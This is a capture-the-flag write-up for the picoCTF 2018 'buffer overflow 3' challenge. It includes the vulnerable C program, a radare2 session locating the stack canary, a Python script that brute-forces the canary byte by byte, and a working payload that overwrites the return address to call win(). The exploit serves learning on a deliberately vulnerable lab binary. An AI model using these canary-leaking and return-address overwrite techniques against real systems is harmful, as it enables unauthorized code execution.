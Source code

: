 # [buffer overflow 3](https://2018game.picoctf.com/problems)

## Problem
It looks like Dr. Xernon added a stack canary to this [program](https://2018shell3.picoctf.com/static/ce00c0f7dc9cb4ddf31fbee32962841e/vuln) to protect against buffer overflows. Do you think you can bypass the protection and get the flag? You can find it in /problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf. [Source](https://2018shell3.picoctf.com/static/ce00c0f7dc9cb4ddf31fbee32962841e/vuln.c).

## Solution

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

this time we have to deal with a canary, that's read from the file "./canary.txt".

the program will ask us how many bytes to copy on the buffer, that's 32 bytes in size, and would then copy all of them in buf regardless of the defined size, so there's the obvious buffer overflow. the canary previously read from the file is close to the end of our buf, as we can see with a fast debugging session:

```
[andrei@jacky 22:59:51] ~/Documents/pico
——> echo BBBB > canary.txt
[andrei@jacky 23:00:10] ~/Documents/pico
——> xxd canary.txt
00000000: 4242 4242 0a                             BBBB.
[andrei@jacky 22:56:02] ~/Documents/pico
——> python2 -c "print('32\n' + 'A' * 32)" > input
[andrei@jacky 22:56:11] ~/Documents/pico
——> xxd input
00000000: 3332 0a41 4141 4141 4141 4141 4141 4141  32.AAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 410a                                AAA.
[andrei@jacky 22:56:13] ~/Documents/pico
——> cat r2profile
program=./vuln
stdin=input
[andrei@jacky 22:57:25] ~/Documents/pico
——> r2 -r r2profile -d ./vuln
Process with PID 21302 started...
= attach 21302 21302
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
glibc.fc_offset = 0x00148
 -- In radare we trust
[0xf7f660b0]> db 0x080488ad
[0xf7f660b0]> dc
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
hit breakpoint at: 80488ad
[0x080488ad]> px @esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xfff7e290  405d f2f7 58a0 0408 0400 0000 0100 0000  @]..X...........
0xfff7e2a0  0000 0000 2000 0000 3332 0af7 0000 0000  .... ...32......
0xfff7e2b0  f8e2 f7ff 90a2 f7f7 0400 0000 0000 0000  ................
0xfff7e2c0  244e f2f7 244e f2f7 4141 4141 4141 4141  $N..$N..AAAAAAAA
0xfff7e2d0  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0xfff7e2e0  4141 4141 4141 4141 4242 4242 0200 0000  AAAAAAAABBBB....
0xfff7e2f0  e803 0000 e803 0000 18e3 f7ff fe88 0408  ................
0xfff7e300  0100 0000 c4e3 f7ff cce3 f7ff e803 0000  ................
[0x080488ad]> dbt
0  0x80488ad  sp: 0x0         0    [sym.vuln]  eip sym.vuln+234
1  0xf7f7a290 sp: 0xfff7e2b4  36   [??]  map.usr_lib32_ld_2.28.so.r_x+82576
2  0x80488fe  sp: 0xfff7e2fc  72   [sym.main]  main+75
3  0xf7f7a290 sp: 0xfff7e384  136  [??]  map.usr_lib32_ld_2.28.so.r_x+82576
4  0x8048611  sp: 0xfff7e39c  24   [??]  entry0+33

```

here, i created the canary.txt file with 'BBBB' (= 0x42424242) as our stack canary. we can see it's right after the end of buf. examining the backtrace we can also see the value and position of the return address in the stack (0x80488fe  sp: 0xfff7e2fc); but to write on that position we overwrite the canary, so we need to find a way to leak it in order to write the same value in memory.

if we look at the source code we can see our input is copied on the stack with a call to ```read(0,buf,count);``` that doesn't write the NULL character at the end of the string, as opposed to say a scanf. this means we don't need to guess the entire 4 byte value, we can check for a byte at a time and have the program tell us if it's right with the output messages; that's 256 * 4 instead of 256 ^ 4 total tries, and even if it was to guess the entire value, being that it's read from a file and doesn't change every time the program is loaded again, that wouldn't be a problem anyway.

something like this horrible script will do the job

```
——> cat findcan.py
from subprocess import *
import struct

l = []

for j in range(0, 4):
    for i in range(0,256):
        p = Popen(['./vuln'], stdout = PIPE, stdin = PIPE)
        s = str(33 + j).encode() + b'\n' + b'A' * 32
        for e in l:
            s += struct.pack('B', e)
        s += struct.pack('B', i)
        p.stdin.write(s)
        p.stdin.flush()
        if b'Flag' in p.stdout.read():
            l.append(i)
            print(hex(i))
            break

[andrei@jacky 23:17:02] ~/Documents/pico
——> python findcan.py
0x42
0x42
0x42
0x42
```

this was executed locally, so on the server it would print the real canary value.

anyway, knowing the canary value we can easily overwrite the return address with the one of the win() function

```
xnand@pico-2018-shell-3:/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf$ python ~/findcan.py
0x49
0x48
0x77
0x6a
Reading symbols from vuln...(no debugging symbols found)...done.
(gdb) p win
$1 = {<text variable, no debug info>} 0x80486eb <win>
(gdb) q
xnand@pico-2018-shell-3:/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf$ ./vuln <<< $(python2 -c "print('88\n' + b'A'*61 + b'\x49\x48\x77\x6a' + 'B' * 16 + '\xeb\x86\x04\x08')")
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
picoCTF{eT_tU_bRuT3_F0Rc3_58bc7747}
Segmentation fault (core dumped)

```
